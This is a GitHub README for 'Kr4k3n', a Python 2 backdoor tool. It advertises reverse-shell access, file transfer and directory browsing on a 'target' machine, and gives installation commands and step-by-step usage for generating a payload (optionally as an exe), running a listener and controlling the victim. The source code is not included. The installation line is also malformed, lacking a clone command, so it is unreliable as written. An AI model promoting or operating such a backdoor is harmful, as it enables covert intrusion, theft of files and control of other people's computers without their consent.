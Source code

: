 # Kr4k3n Backdoor Tool
 Powerful and easy to use Backdoor.

![download(1)](https://user-images.githubusercontent.com/56045160/115126114-d60eb480-9f9a-11eb-909d-df919b9a970c.gif)

## How it works
```
Using this tool you can easily and fast generate target file that will give you many features. Firstly, you can have access to target shell. Secondly, you can make file transfers between your and target machines. Thirdly, you can make directory movements.
```
## Features
- Reverse Shell
- File Transfer
- Directory Movement

## Installation:

One line installation:
```
$ git@github.com:YanOScompany/kr4k3n.git && cd kr4k3n && chmod 755 install.sh && ./install.sh
```

Simple and quick installation:
```
$ git@github.com:YanOScompany/kr4k3n.git
$ cd kr4k3n
$ chmod 755 install.sh && ./install.sh
```

## Usage:

[Video Tutorial](https://www.youtube.com/watch?v=b4WSImA3avQ)

Example usage:
```

1. Generate file | python2 Generate.py 127.0.0.1 8888 or to compile to exe add --compile (make sure that you have install pyinstaller)
2. Start kr4k3n and wait until your target connection. Example | python2 kr4k3n.py 127.0.0.1 8888
3. Use commands. Example | ls, ifconfig or kraken-get 11.png, kraken-push 11.png (for see all commands type kraken-help)
```
##My Instagram: @k4sh1r1nkut0 

